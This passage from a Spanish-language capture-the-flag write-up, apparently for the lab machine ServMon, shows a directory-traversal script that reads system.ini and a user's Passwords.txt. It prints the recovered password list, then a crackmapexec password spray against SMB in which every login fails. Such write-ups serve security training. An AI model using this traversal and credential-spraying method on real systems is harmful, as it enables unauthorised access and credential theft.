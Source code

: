 ```bash
❯ python3 nvms.py 10.10.10.184 Windows/system.ini
[+] DT Attack Succeeded
[+] File Content

++++++++++ BEGIN ++++++++++
; for 16-bit app support
[386Enh]
woafont=dosapp.fon
EGA80WOA.FON=EGA80WOA.FON
EGA40WOA.FON=EGA40WOA.FON
CGA80WOA.FON=CGA80WOA.FON
CGA40WOA.FON=CGA40WOA.FON

[drivers]
wave=mmdrv.dll
timer=timer.drv

[mci]

++++++++++  END  ++++++++++
❯ python3 nvms.py 10.10.10.184 Users/Nathan/Desktop/Passwords.txt Passwords.txt
[+] DT Attack Succeeded
[+] Saving File Content
[+] Saved
[+] File Content

++++++++++ BEGIN ++++++++++
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
++++++++++  END  ++++++++++
```

Tenemos unas posibles contraseñas de los usuarios que tenemos y además ya validamos que el usuario **Nathan** existe en el sistema; como vemos el puerto 445 abierto, vamos a probar con `crackmapexec`:

```bash
❯ crackmapexec smb 10.10.10.184 -u 'Nathan' -p Passwords.txt
SMB         10.10.10.184    445    SERVMON          [*] Windows 10.0 Build 18362 x64 (name:SERVMON) (domain:ServMon) (signing:False) (SMBv1:False)
SMB         10.10.10.184    445    SERVMON          [-] ServMon\Nathan:1nsp3ctTh3Way2Mars! STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\Nathan:Th3r34r3To0M4nyTrait0r5! STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\Nathan:B3WithM30r4ga1n5tMe STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\Nathan:L1k3B1gBut7s@W0rk STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\Nathan:0nly7h3y0unGWi11F0l10w STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\Nathan:IfH3s4b0Utg0t0H1sH0me STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\Nathan:Gr4etN3w5w17hMySk1Pa5$ STATUS_LOGON_FAILURE
```
